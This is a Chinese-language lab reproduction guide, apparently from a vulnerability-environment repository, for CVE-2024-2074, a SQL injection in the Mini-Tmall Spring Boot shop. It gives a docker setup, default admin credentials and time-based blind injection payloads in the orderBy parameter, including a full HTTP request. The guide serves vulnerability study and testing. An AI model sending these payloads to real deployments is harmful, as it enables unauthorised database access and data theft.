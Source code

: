 # CVE-2024-2074 SpringBoot迷你天猫商城Mini-Tmall sql注入

Mini-Tmall是一个基于Spring Boot的迷你天猫商城。Mini-Tmall在20231017版本及之前存在一个严重的漏洞，攻击者可以利用该漏洞通过远程执行特定操作来注入恶意SQL语句，从而获取敏感信息或控制数据库。此漏洞影响文件?r=tmall/admin/user/1/1的一些未知处理，攻击者可以通过篡改orderBy参数来达成sql注入攻击。攻击者可以通过远程方式发起攻击。

版本影响 <=20231017版本

项目下载地址https://gitee.com/project_team/Tmall_demo/tree/master

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/136683670
- https://github.com/yuziiiiiiiiii/CVE-2024-2074/blob/main/cve.md
- https://nvd.nist.gov/vuln/detail/CVE-2024-2074

## 漏洞环境

执行如下命令启动一个minitmall-20231017-web服务器：

```
docker compose up 
```



## 漏洞复现

需要登录下后台 ，用户admin 密码123456

![](https://img-blog.csdnimg.cn/direct/664f9800839b43159ceb31ce0c64e9c8.png)

1，admin/user接口

发送payload 时间盲注

```
GET /tmall/admin/user/1/1?orderBy=if(1=1,SLEEP(3),0) HTTP/1.1
GET /tmall/admin/user/1/1?orderBy=if(1=0,SLEEP(3),0) HTTP/1.1
```

```
GET /tmall/admin/user/1/1?orderBy=if(1=1,SLEEP(3),0) HTTP/1.1
Host: 192.168.116.128:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=47A17DA7DE2B54FC5D39E161ED9A8614; username=admin; _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; TCSESSIONID=C535ABCCFF3BD453A9744400E7499A10; PHPSESSID=30296698223c1b44b6021dd0ce8ff70f
Connection: close
```

![](https://img-blog.csdnimg.cn/direct/71bab7df101249da8b214465b7943051.png)

![](https://img-blog.csdnimg.cn/direct/d4cf76cfd8a941e89daec694056e9d74.png)

2，admin/product接口

![](https://img-blog.csdnimg.cn/direct/5e6c189d37e9470abe2ff14f2d9fc6d3.png)

![](https://img-blog.csdnimg.cn/direct/e96c849d517a49da85938c3b74e7442a.png)